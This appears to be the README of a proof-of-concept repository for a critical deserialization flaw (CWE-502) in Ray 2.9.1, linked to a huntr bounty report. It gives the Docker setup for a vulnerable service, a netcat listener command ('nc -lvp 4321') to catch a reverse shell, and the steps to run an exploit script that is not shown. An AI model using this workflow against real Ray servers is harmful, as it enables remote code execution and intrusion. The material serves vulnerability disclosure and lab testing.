 # Ray 2.9.1 Deserialization Demo (Reverse Shell) - CWE-502
Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f
Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is performed by sending a malicious serialized object to the Ray service.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands
### Terminal 1 - Start the Service

Pull the image from dockerhub using `docker pull rayproject/ray:2.9.1` or build the image using the provided `Dockerfile`. Note, if the image is pulled from dockerhub, then the client python version must be `>=3.8` and the `ncat` command must be installed manually.

```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 -p 4321:4321 --add-host host.docker.internal:host-gateway --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
